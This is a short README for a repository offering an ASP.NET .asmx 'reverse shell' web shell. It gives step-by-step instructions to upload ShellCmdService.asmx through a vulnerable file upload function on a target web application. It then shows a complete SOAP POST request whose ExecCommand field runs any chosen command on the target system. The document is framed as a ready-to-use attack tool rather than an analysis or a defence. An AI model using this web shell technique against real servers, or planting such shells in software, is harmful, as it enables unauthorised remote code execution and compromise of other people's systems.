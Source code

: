 # asmx-reverse-shell

This repository contains an asmx reverse shell for achieving code execution using file upload functionality.

## Steps for Code Execution

1. **Upload the Reverse Shell File:**
   - Upload `ShellCmdService.asmx` to the target machine. This can be done through a vulnerable file upload functionality on a web application.

2. **Execute Commands:**
   - Send a POST request to the server using Burp Suite.

   Example request:

   ```bash
   POST /ShellCmdService.asmx HTTP/1.1
   Host: 127.0.0.1
   Content-Type: text/xml
   Content-Length: 347

   <?xml version="1.0" encoding="utf-8"?>
   <soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
     <soap:Body>
       <ExecCommand xmlns="http://tempuri.org/">
         <cmd>Command</cmd>
       </ExecCommand>
     </soap:Body>
   </soap:Envelope>

Replace `127.0.0.1` with the actual host and modify <cmd>`Command`</cmd> with the command you want to execute on the target system.

Contributing

Contributions are welcome! If you have suggestions or improvements, feel free to open an issue or create a pull request.
